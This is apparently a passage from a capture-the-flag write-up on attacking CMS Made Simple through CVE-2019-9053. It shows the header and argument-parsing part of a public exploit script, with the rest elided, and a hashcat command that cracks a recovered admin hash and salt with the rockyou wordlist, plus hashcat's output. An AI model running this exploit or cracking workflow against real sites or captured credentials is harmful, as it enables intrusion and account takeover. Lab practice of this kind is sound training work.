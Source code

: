```
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053

import requests
from termcolor import colored
import time
from termcolor import cprint
import optparse
import hashlib

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist', action="store", dest="wordlist", help="Wordlist for crack admin password")
parser.add_option('-c', '--crack', action="store_true", dest="cracking", help="Crack password with wordlist", default=False)

<see exploit for rest of code>
```
## hydra

Although I had to amend the code slightly (wouldn't run in Python2 for me) although mainly by adding (), I did get a password and it's salt. With this I used hashcat to get the answer required.
```
hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt
hashcat (v6.0.0) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-AMD Ryzen 5 3500U with Radeon Vega Mobile Gfx, 9874/9938 MB (4096 MB allocatable), 3MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 51

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Optimized-Kernel
* Zero-Byte
* Precompute-Init
* Early-Skip
* Not-Iterated
* Prepended-Salt
* Single-Hash
* Single-Salt
* Raw-Hash

Watchdog: Hardware monitoring interface not found on your system.
```